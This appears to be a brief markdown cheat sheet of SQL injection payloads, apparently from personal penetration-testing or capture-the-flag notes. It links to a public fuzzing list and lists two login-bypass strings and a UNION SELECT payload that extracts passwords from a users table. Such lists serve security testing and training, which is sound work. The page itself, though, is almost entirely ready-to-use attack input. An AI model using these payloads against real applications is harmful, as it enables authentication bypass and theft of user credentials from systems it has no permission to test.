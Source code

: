 #sqli 

## Resources
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/Intruder/Generic_Fuzz.txt


## Login Bypass 
```sql
1' AND 1=1 -- comment
```

```sql
' OR ' 1
```


## Numeric Injection
```sql
 -1 UNION SELECT password FROM users 
```

